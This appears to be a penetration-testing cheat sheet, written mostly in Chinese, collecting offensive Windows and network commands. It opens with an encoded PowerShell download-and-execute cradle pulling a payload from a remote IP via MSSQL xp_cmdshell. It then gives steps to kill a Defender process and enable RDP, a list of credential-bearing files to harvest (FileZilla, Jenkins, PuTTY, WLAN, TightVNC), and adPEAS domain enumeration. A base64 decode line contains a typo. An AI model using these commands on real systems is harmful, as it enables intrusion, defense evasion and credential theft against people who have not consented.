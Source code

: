 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```

# 杀进程
```
tasklist /FI "IMAGENAME eq NisSrv.exe"


taskkill /pid 5672 -f

```


# base64

加密
```
base64 -w0 <filename> 
```

解密
```
echo "<base64 string here>" | base65 -d > <解密文件>
```

# 监听流量

```
tcpdump -i tun0 -w capture_file
```


# 开启RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```


# Juicy files

## All user folders
## Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```

## Web.config
```
C:\inetpub\www\*\web.config
```

## Unattend files
```
C:\Windows\Panther\Unattend.xml
```


## RDP config files
```
C:\ProgramData\Configs\
```


## Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```


## PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```

## FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```

## Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```


## WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```

## TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```



# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```

# 发邮件
```
sendEmail 命令主程序
-f ttlsafrom@163.com  发件人邮箱
-s smtp.163.com       发件人邮箱的smtp服务器
-u "我是邮件主题"     邮件的标题
-o message-content-type=html   邮件内容的格式,html表示它是html格式
-o message-charset=utf8        邮件内容编码
-xu ttlsafrom@163.com          发件人邮箱的用户名
-xp 123456               发件人邮箱密码
-m "我是邮件内容"        邮件的具体内容
```

例子：
```
sendEmail -f <发件人邮箱> -t <收件人邮箱> -s <发件人邮箱的smtp服务器（IP 或者 域名> -u <邮件主题> -m <邮件内容>
```


命令解释
```
sendEmail             

sendEmail-1.56 by Brandon Zehm <caspian@dotconf.net>

Synopsis:  sendEmail -f ADDRESS [options]

  Required:
    -f ADDRESS                from (sender) email address
    * At least one recipient required via -t, -cc, or -bcc
    * Message body required via -m, STDIN, or -o message-file=FILE

  Common:
    -t ADDRESS [ADDR ...]     to email address(es)
    -u SUBJECT                message subject
    -m MESSAGE                message body
    -s SERVER[:PORT]          smtp mail relay, default is localhost:25
    -S [SENDMAIL_PATH]        use local sendmail utility (default: /usr/bin/sendmail) instead of network MTA

  Optional:
    -a   FILE [FILE ...]      file attachment(s)
    -cc  ADDRESS [ADDR ...]   cc  email address(es)
    -bcc ADDRESS [ADDR ...]   bcc email address(es)
    -xu  USERNAME             username for SMTP authentication
    -xp  PASSWORD             password for SMTP authentication

  Paranormal:
    -b BINDADDR[:PORT]        local host bind address
    -l LOGFILE                log to the specified file
    -v                        verbosity, use multiple times for greater effect
    -q                        be quiet (i.e. no STDOUT output)
    -o NAME=VALUE             advanced options, for details try: --help misc
        -o message-content-type=<auto|text|html>
        -o message-file=FILE         -o message-format=raw
        -o message-header=HEADER     -o message-charset=CHARSET
        -o reply-to=ADDRESS          -o timeout=SECONDS
        -o username=USERNAME         -o password=PASSWORD
        -o tls=<auto|yes|no>         -o fqdn=FQDN


  Help:
    --help                    the helpful overview you're reading now
    --help addressing         explain addressing and related options
    --help message            explain message body input and related options
    --help networking         explain -s, -b, etc
    --help output             explain logging and other output options
    --help misc               explain -o options, TLS, SMTP auth, and more


```

# mogodb连接

[文档](https://www.runoob.com/mongodb/mongodb-connections.html)

```
mongo "mongodb://<host>:<port>/<service>"

mongodb://[username:password@]host1[:port1][,host2[:port2],...[,hostN[:portN]]][/[database][?options]]

```

